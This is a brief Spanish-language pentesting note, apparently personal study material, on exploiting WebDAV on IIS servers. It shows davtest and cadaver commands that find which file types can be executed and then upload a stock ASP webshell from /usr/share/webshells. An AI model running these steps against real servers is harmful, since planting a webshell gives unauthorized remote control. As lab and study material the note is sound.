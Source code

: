 # Explotación de WebDAV en IIS

Tags: #IIS #WebDav 

* IIS = Internet Information Services
	* Soporta extensiones de archivos ejecutables:
		* .asp
		* .aspx
		* .config
		* .php

Necesitamos credenciales validas para poder entrar al WebDav en la web
```bash 
❯ http://IP/webdav/
```

## Webshell 

```bash 
/usr/share/webshells/                # Ruta de la Webshell

	# asp, aspx, cfm, jsp, laudanum, perl, php, seclists
```

## Tools 

```bash 
* davtest           # Usada para escanear, autenticar y explotar un WebDAV
* cadaver           # Soporta la subida y bajada de archivos, visualizacion, editar, mover/copiar, borrar, manipular y bloqueo.
```

Esta tool crea un directorio en el servidor y va subiendo archivos con diferentes extensiones además de ver cuales se pueden ejecutar. 
```bash 
❯ davtest -auth <user>:<passwd> -url http://IP/webdav    # Necesitamos credenciales validas, y nos checara que tipo de archivos puedes subir o ejecutar en el servidor 
```

```bash 
❯ cadaver http://IP/webdav           # Puedes acceder al contenido del servidor WebDAB, te preguntara las credenciales, esta tool te desplegara una consola
	❯ put /usr/share/webshells/asp/webshell.asp      # Asi subimos un archivo al servidor Webdav
```